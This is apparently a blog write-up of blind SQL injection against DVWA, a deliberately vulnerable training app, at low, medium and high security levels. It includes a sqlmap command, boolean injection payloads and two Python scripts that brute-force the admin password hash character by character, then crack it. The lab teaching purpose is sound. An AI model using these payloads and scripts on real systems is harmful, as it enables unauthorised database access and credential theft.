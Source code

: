 +++
date = '2025-10-20T19:44:32+07:00'
draft = false
title = 'DVWA SQL Injection Blind Low/Medium/High Security'
tags = ['DVWA']
description = 'Leverage SQL vulnerability to get info about the website.'

[cover]
  image = '/images/posts/dvwa-cover.png'
  alt = 'DVWA SQL Injection Blind'
  caption = 'DVWA SQL Injection Blind'
  relative = false
+++

## Description

**Vulnerability:** SQL Blind Injection  
**Impact:** Levaraging SQL Blind Injection to get the data that we aren't supposed to know.

---

## LOW Security Level

The SQL Blind Injection is basically harder for us to retreive our desired data when comparing to normal SQL Injection. You can see this code from the source:

```php
$exists = false;
if ($result !== false) {
    try {
        $exists = (mysqli_num_rows( $result ) > 0);
    } catch(Exception $e) {
        $exists = false;
    }
}
```

And whatever we give `id` param it just have 2 results:

![Guide image](/images/posts/dvwa-sql-injection-blind-1.png)

or:

![Guide image](/images/posts/dvwa-sql-injection-blind-2.png)

For example: we doesn't know any about the databases we can use `sqlmap` in order to get available databases:

```bash
sqlmap -u "http://localhost/DVWA/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=..." --dbs
```

You can get the databases:

![Guide image](/images/posts/dvwa-sql-injection-blind-3.png)

Also, we can test by using this payload `1' AND user = 'admin' #` we received `User ID exists in the database.` and now we can brute-force the password.

I create an exploit Python script, it is simple, the script will brute-force each character of the MD5 hash password, if character exists in the password the website will return `User ID exists in the database.` until we get the full hash password.

```python
import requests
import string

url = 'http://localhost/DVWA/vulnerabilities/sqli_blind/'
cookies = {
    'security': 'low',
    'PHPSESSID': '<YOUR_PHPSESSID>'
}

SUCCESS_TEXT = "User ID exists in the database."

charset = string.ascii_lowercase + string.digits
received_hash = ""

print("Starting blind SQL injection attack (brute-force admin password)...")

for i in range(1, 33):
    for char in charset:
        payload = f"1' AND SUBSTRING((SELECT password FROM users WHERE user = 'admin'), {i}, 1) = '{char}' #"

        params = {
            'id': payload,
            'Submit': 'Submit'
        }

        try:
            response = requests.get(url, params=params, cookies=cookies)

            if SUCCESS_TEXT in response.text:
                received_hash += char
                print(f"received_hash: {received_hash}")
                break

        except requests.exceptions.RequestException as e:
            print(f"\n[!] An error occurred: {e}")

print(f"\n\nFull Hash: {received_hash}")
```

![Guide image](/images/posts/dvwa-sql-injection-blind-4.png)

Decrypt that hash MD5 password with CrackStation.net

![Guide image](/images/posts/dvwa-sql-injection-blind-5.png)

## MEDIUM Security Level

This MEDIUM level source code is a little different:

```php
$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
```

The `user_id` now takes number instead of string and also in the UI we cannot write our script, there is just a select. We can use `sqlmap` like LOW Security Level or use this payload in Burp Suite character by character:

```
1 AND SUBSTRING((SELECT database()), 1, 1) = 'd'
```

## HIGH Security Level

The HIGH Security Level use `id` input is cookie instead of param so i have modified my used code in LOW Security Level:

```python
import requests
import string

url = 'http://localhost/DVWA/vulnerabilities/sqli_blind/'
cookies = {
    'security': 'high',
    'PHPSESSID': '<YOUR_PHPSESSID>',
    'id': ''
}

SUCCESS_TEXT = "User ID exists in the database."

charset = string.ascii_lowercase + string.digits
received_hash = ""

print("Starting blind SQL injection attack (brute-force admin password)...")

for i in range(1, 33):
    for char in charset:
        payload = f"1' AND password LIKE '{received_hash + char}%"

        cookies['id'] = payload

        try:
            response = requests.get(url, cookies=cookies)

            print(f'{received_hash + char}')

            if SUCCESS_TEXT in response.text:
                received_hash += char
                print(f"received_hash: {received_hash}")
                break

        except requests.exceptions.RequestException as e:
            print(f"\n[!] An error occurred: {e}")

print(f"\n\nFull Hash: {received_hash}")
```

But remember that the code will run slow since the new source code has this logic:

```php
if( rand( 0, 5 ) == 3 ) {
    sleep( rand( 2, 4 ) );
}

// User wasn't found, so the page wasn't!
header( $_SERVER[ 'SERVER_PROTOCOL' ] . ' 404 Not Found' );

// Feedback for end user
echo '<pre>User ID is MISSING from the database.</pre>';
```

So when the character is incorrect it may `sleep` so it is slower.

![Guide image](/images/posts/dvwa-sql-injection-blind-4.png)

## Resources

-   https://en.wikipedia.org/wiki/SQL_injection
-   https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
-   https://owasp.org/www-community/attacks/Blind_SQL_Injection
-   https://bobby-tables.com/
